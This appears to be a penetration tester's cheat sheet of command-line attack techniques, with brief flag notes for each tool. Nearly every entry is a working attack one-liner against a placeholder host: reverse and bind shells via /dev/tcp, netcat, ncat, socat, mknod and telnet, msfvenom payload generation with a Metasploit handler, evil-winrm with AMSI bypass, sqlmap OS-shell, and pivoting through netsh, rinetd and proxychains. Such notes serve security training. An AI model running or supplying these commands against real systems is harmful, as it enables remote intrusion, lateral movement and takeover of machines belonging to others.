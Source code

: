 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <username> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
#### `evil-winrm -i X.X.X.X -u <username> -e <path/on/attack>`
#### `Invoke-Binary <path/to/csharpexe>`
#### `Donut-Loader`
#### `Bypass-4MSI`
  * -s allows you to load powershell scripts from Kali to the victim
  * Invoke-Binary runs C# executables in memory; the executables must be in the path set by the -e flag in the prior command
  * Donut-Loader and Bypass-4MSI look useful but I don't know how to use them yet

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/):
#### `msfconsole -q`
#### `use multi/handler`
  * Metasploit can do a million things, but a few that stand out as useful might be listed here
  * -q runs it in quiet mode for less text
  * Set up the multi handler to match payloads created with msfvenom to catch staged or unstaged payloads
  

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports
  
# [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts):
#### `netsh interface portproxy add v4tov4 listenport=YYY listenaddress=X.X.X.X connectport=BBB connectaddress=A.A.A.A`
#### `netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=X.X.X.X localport=YYY action=allow`  
  * Above interface command creates a listener on X.X.X.X:YYY that forwards to A.A.A.A:BBB
  * Above advfirewall command creates a firewall rule that allows inbound traffic to X.X.X.X:YYY

# [proxychains](https://www.unix.com/man-page/debian/1/proxychains/):
#### `cat /etc/proxychains.conf`
#### `socks4 127.0.0.1 YYY`
#### `proxychains command`
  * Combine with `ssh -N -D` to source a given command through a pre-established tunnel
    * For instance you could nmap a machine on an internal network from an already-compromised host on that network

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html):
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink <username>@X.X.X.X`
#### `ssh <username>@X.X.X.X`
#### `ssh -i ~/.ssh/keyfile username@X.X.X.X`
  * Establishes secure shell on the remote host with the provided username and password
  * -i specifies a key file to instead of a password
  * -p defines a port to connect to in the case on non-standard ssh ports
  * See pairing with [tunneling flags](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#ssh) and Proxychains [proxies.md](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#proxychains) for pivoting around a compromised network

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

